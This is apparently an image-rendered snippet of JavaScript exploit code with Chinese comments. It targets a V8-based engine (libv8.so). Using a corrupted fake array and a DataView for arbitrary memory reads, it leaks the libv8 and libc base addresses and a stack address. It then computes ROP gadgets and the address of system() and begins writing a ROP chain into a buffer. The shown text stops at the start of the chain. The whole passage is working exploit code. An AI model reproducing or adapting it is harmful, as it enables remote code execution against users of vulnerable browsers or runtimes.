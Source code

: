 ```
faker[8] = p64(u64_l(v) + 0x10,u64_h(v));
var fdv = new DataView(arb_bufferArray);
var heap_t_l = fdv.getUint32(0,true);
var heap_t_h =fdv.getUint32(4,true);

//泄露libv8.so的地址
faker[8] = p64(heap_t_l,heap_t_h);
var elf_addr_l = fdv.getUint32(0,true);
var elf_addr_h = fdv.getUint32(4,true);
var elf_base_l = elf_addr_l - 0xeb4028;
var elf_base_h = elf_addr_h;

//alert("elf_base=" + elf_base_h.toString(16) + elf_base_l.toString(16));
var strlen_got_l = elf_base_l + 0xEF4DB8;
var free_got_l = elf_base_l + 0xEF7A18;
//0x0000000000b9ac48 : mov rdi, qword ptr [r13 + 0x20] ; mov rax, qword ptr [rdi] ; call qword ptr [rax + 0x30]
var mov_rdi = elf_base_l + 0xb9ac48;
//0x000000000076039f : mov rdx, qword ptr [rax] ; mov rax, qword ptr [rdi] ; mov rsi, r13 ; call qword ptr [rax + 0x10]
var mov_rdx = elf_base_l + 0x76039f;
var pop_rdi = elf_base_l + 0x6010bb;
//泄露libc地址
faker[8] = p64(strlen_got_l,elf_base_h);
var strlen_addr_l = fdv.getUint32(0,true);
var strlen_addr_h = fdv.getUint32(4,true);

var libc_base_l = strlen_addr_l - 0x18b660;
var libc_base_h = strlen_addr_h;
var mov_rsp_rdx_l = libc_base_l + 0x5e650;
var environ_ptr_addr_l = libc_base_l + 0x1EF2E0;
var system_l = libc_base_l + 0x55410;
//alert("libc_base=" + libc_base_h.toString(16) + libc_base_l.toString(16));
//alert("system_l=" + libc_base_h.toString(16) + system_l.toString(16));
//泄露栈地址
faker[8] = p64(environ_ptr_addr_l,libc_base_h);
var stack_addr_l = fdv.getUint32(0,true);
var stack_addr_h = fdv.getUint32(4,true);
//alert("stack_addr="+stack_addr_h.toString(16) + stack_addr_l.toString(16));

faker[8] = p64(u64_l(v) + 0x80,u64_h(v));
heap_t_l = fdv.getUint32(0,true);
heap_t_h =fdv.getUint32(4,true);

if (parseInt(heap_t_h) == 0) `{`
   location.reload();
`}` else `{`
   //泄露compression ptr的高4字节数据
   faker[8] = p64(heap_t_l,heap_t_h);
   var compression_ptr_high = fdv.getUint32(4,true);
   //alert("compression_ptr_high="+compression_ptr_high.toString(16));
   //泄露buf的数据区地址
   v = fake_doubleArr[offset - 1];
   var buf_data_addr_l = u64_l(v);
   var buf_data_addr_h = u64_h(v);
   //在数据区布下ROP等
   dv.setFloat64(0,p64(buf_data_addr_l+0x10,buf_data_addr_h),true);
   dv.setFloat64(0x40,p64(mov_rdx,elf_base_h),true);
   dv.setFloat64(0x20,p64(mov_rsp_rdx_l,libc_base_h),true);
   //rsp
   dv.setFloat64(0x10,p64(buf_data_addr_l+0x2000,buf_data_addr_h),true);

   //rop
```